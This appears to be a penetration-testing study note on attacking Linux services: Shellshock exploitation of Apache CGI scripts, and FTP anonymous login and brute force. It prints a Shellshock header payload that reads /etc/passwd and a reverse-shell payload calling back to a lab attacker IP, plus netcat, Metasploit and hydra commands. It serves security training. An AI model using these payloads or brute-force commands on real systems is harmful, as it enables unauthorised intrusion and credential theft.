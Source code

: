 # Linux Vulnerabilities

Linux is an OS which is often found running on servers. This means it is vital for us as penetration testers to understand linux and how to exploit it.

There are some common sevices which are found on linux systems - in this section we will be looking at what these are and how to exploit them.

The following table summarises the services we will look at:

| Service | Ports | Purpose |
| ---|---|---|
| Apache | 80, 443 | Web server which is used on 80% of global web servers |
| SSH | 22 | Secure remote access to control systems across unsecured networks |
| FTP | 21 | File sharing between a client and server and vice-versa |
| SAMBA | 445 | Linux implementation of SMB - allows windows machines to access linux shares and devices and vice-versa |

## Exploiting Apache via CVE-2014-6271 aka Shellshock

The shellshock family of vulnerabilities let attackers execute system commands remotely on a linux system which is vulnerable.

Two services are involved - *apache* and *bash* - which is why we are covering it here in the section relating to exploiting apache.

>[!NOTE]
>Shellshock is hardly ever seen anymore - it was so important it is worthwhile knowing about

### Context

Apache web servers which have been set up to run Common Gateway Interface scripts or .sh scripts could be vulnerable to shellshock.

>[!NOTE]
>CGI scripts are used by Apache to execute commands on the Linux system and show the output to the client

We can develop our own CGI scripts to perform commands on web-servers.

Shellshock takes advantage of this feature of apache along with a vulnerability in older versions of bash which execute commands after the series of characters `() {:;}`

### Exploitation

We need to find a way to communicate with the vulnerable version of bash - this is where CGI scripts come into play. If we can find CGI scripts on the targeted server, we can utilise them to send to bash the series of characters followed by the command we would like to have executed on the remote system.

When we make an html request using a CGI script, the web server will start a new process and execute the script with bash.

We therefore want to keep an eye open for .cgi scripts being used by web applications. We can look in source code to help with this - we might find a GET request is being made to a .cgi script.

We need to also make sure that the server is vulnerable to shellshock. To do this, we can run an nmap script:

```bash
sudo nmap -sV 192.168.56.101 --script=http.shellshock --script-args "http-shellshock.uri=/vulnscript.cgi"
```

>[!NOTE]
>The path to the CGI script is included as the value passed to the `http-shellshock.uri` argument

#### Manual Method

To exploit a shellshock vulnerability manually once we have found one and a .cgi script to use, we can use a proxy server such as burpsuite or zap to intercept a GET request to the CGI script.

The easiest and best place to inject the sequence of characters along with a command which we would like to have executed on the target web-server is in the `User-Agent` http header like so:

```bash
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

If we get success with a command such as `id` or `cat /etc/passwd` we can try different commands to get a reverse shell.

We can start a netcat listener on our attacking machine:

```bash
sudo nc -nlvp 4444
```

We can then try different ways to get a bash reverse shell. One way is shown below:

```bash
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.168.56.108/4444 0>&1'
```

>[!NOTE]
>If the above injection does not work, it is worth URL encoding it and / or trying a different command for the actual reverse shell

#### Automated Exploitation

We can automate the exploitation of a shellshock vulnerability using the msfconsole module `exploit/multi/http/apache_mod_cgi_bash_env_exec`

We will need to set `RHOSTS` and `TARGETURI` - in the example we have been using so far, this would look as follows:

```bash
set RHOSTS 192.168.56.101
set TARGETURI /vulnscript.cgi
run
```

This will (hopefully) give us a meterpreter session on the target system.

## Exploiting FTP

It is worth knowing how to exploit File Transfer Protocol becuase it is used on lots of linux systems.

FTP is used to facilitate the sharing of data between machines - typically this is between a client and a web-server - an example would be a person transfering their website files to their web-server using FTP.

### Anonymous Access

FTP is protected by username:password authentication and by default this is enabled. It is possible to allow *anonymous* access to a system using FTP but this is not normally found. Still, we can test for anonymous FTP access using: `sudo ftp 192.168.56.101` and then using the username `anonymous` with a blank password when prompted to input them.

>[!NOTE]
>Sometimes we will need to use the *passive* mode to connect to FTP - we can use `sudo ftp -p 192.168.56.101` to do so.

### Brute Force Attacks

Typically we do not find *anonymous* access to a server via FTP since it will be set up with username:password authentication.

We can therefore attempt a brute-force attack against FTP.

>[!TIP]
>Password spraying attacks are better than dictionary brute-force attacks

We can use different tools such as *hydra* and *patator* to perform these attacks. Hydra is a good tool and we can launch a dictionary brute-force attack against FTP with it using:

```bash
sudo hydra -L users.txt -P passes.txt ftp://10.10.187.241:2121 -t 4
```

>[!NOTE]
>In the above example the port is specified as `2121` since FTP can be configured to run on any port not just its default of `21` - always check all ports when port scanning

We can also launch a *password spraying* attack using hydra like so:

```bash
sudo hydra hydra -L users.txt -p Password1 ftp://10.10.187.241:2121 -t 4
```

>[!CAUTION]
>Running *hydra* with the default number of threads - 16 - can crash FTP servers - this is why we like to slow things down using `-t 4`

### Enumeration

If we manage to get access to a server via FTP, we can enumerate it using common system commands such as `dir` and `cd`

If we want to download a file we can use: `get confidential.txt` and if we want to download all the resources in a directory we can use `mget *` This makes use of `mget` which lets us download *multiple* files and the `*` wildcard which specifies *all* files.

>[!NOTE]
>It is best to be in the *binary* transfer mode when downloading data using FTP - we can enter this mode using `binary`

### Version Exploits

Like other services, it is also possible to exploit vulnerabilities in specific versions of FTP. In order to do this, we will need to enumerate the version and then search for any vulnerabilities along with exploit code for it.

We can research using search engines or *searchsploit*.


